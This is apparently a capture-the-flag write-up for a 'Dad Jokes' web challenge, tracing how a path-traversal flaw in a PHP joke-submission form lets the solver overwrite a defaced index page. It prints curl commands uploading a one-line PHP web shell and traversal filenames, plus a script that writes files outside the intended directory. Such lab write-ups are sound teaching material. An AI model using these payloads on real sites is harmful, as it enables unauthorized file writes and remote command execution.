

# Dad Jokes
**Category:** [Internet](../README.md)

**Points:** 15

**Description:**

Darn! Some idiot scriptkiddy broke my favorite website full of dad jokes!

I can't seem to contact the owner to fix the site

Can you bring it back and remove the defaced page?


http://timesink.be/dadjokes/

## Write-up
> TL;DR: The steps will describe the way we got to the answer for our own learning purposes. If you just want to know what the answer was, jump to the [solution](#solution)

### Steps
When you visit the link above, you are presented with the hacked page:


The first thing we did is look at the page's source. In there is the following comment:
```html
<!-- Hey bozo! I left your original index file under index_backup.html so you can see how your site looked before I used my l33t skillz to deface it. -->
```
We used this information to look at the old site at <http://timesink.be/dadjokes/index_backup.html>:


When we go to the *Read dad jokes* page, we get a list of available jokes. If we then click on one of the jokes, we notice that it includes a text file in the PHP page: `http://timesink.be/dadjokes/jokes/read.php?file=mugged.txt`.

This could be our way in. Looking at the *Submit your own jokes* page, when you enter something in the form, a filename is passed in using the *GET* method: `http://timesink.be/dadjokes/jokes/submit.php?filename=test.txt&title=test&content=A%20test%20joke`. 

This also give you a prompt to confirm you want to go ahead with the submit:



If you click `YES`, the value `&submit=true` is added to the above *GET* URL.

We can use all this information to try to upload a file. After a few attempts, we tried to create a PHP file and got a 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=test.php&title=test&content=<%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%3F>&submit=true"
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```
Wondering what 'try that somewhere else!' could mean, and after trying a few things, we wondered if we needed to put a file in a different directory. Trying one directory up gave a different 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=../test.txt&title=test&content=a_test&submit=true"
You're on the right track, but are you trying to be a bit naughty?
```
After some more attempts, we tried to see if we could write to the `index.html` file in the previous directory. This gave us one final 'hint':
```
> curl "http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=test&content=a_test&submit=true"
You are definitely on the right track here... but what are you trying to accomplish?
```
OK! So maybe we can overwrite the `index.html` file with the original content from `index_backup.html`?

### Solution
After trying a few things, and getting the odd hint, it seemed we needed to use the submit form from the original website to put the original HTML back into the `index.html` file at the top level.

We wrote a script to read the `index_backup.html` file (left there by the hacker), and pass the result (once URL encoded) as the content to the `submit.php` script:
```bash
#!/bin/sh

URL=http://timesink.be/dadjokes
SUBMIT=jokes/submit.php?
OLDPAGE=index_backup.html

oldtext=$(curl $URL/$OLDPAGE | sed -e "s/ /%20/g" -e "s/'/%27/g" -e "s/=/%3D/g" -e "s/\"/%22/g")

echo $oldtext

flag=$(curl "$URL/${SUBMIT}filename=../index.html&title=index&content=$oldtext&submit=true")
echo $flag
```
Running this script returned the flag
